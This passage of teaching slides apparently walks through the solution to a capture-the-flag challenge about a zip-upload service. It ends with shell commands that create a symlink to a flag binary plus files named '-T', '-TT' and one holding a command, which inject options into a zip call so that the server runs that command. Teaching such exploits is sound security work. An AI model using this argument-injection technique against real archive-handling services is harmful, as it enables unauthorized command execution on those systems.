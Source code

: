 Execute the symlink

Save its output to a file in the current folder

---
## Solution (2/3)

Upload the zip archive

Click the `Download all` button

Download the file that now appears after a reload

---

## Solution (3/3)

```bash
$ ln -s /getflag getflag
$ touch -- -T
$ touch -- -TT
$ touch -- 'PATH="." getflag>flag.txt' 
$ zip vuln2 -y -- *
$ ls
-T   -TT  'PATH="." getflag>flag.txt'  flag.txt   getflag vuln2.zip
```

---
class: center, middle

# Questions ![:i](fas fa-question)

---
class: center, middle

#![:i](fab fa-creative-commons) ![:i](fab fa-creative-commons-by) ![:i](fab fa-creative-commons-sa)

## This work is licensed under

## _Attribution-ShareAlike 4.0 International</br> (CC BY-SA 4.0)_

.footer[Icons from _www.onlinewebfonts.com_, which are licensed under CC BY 3.0]

---
template: start

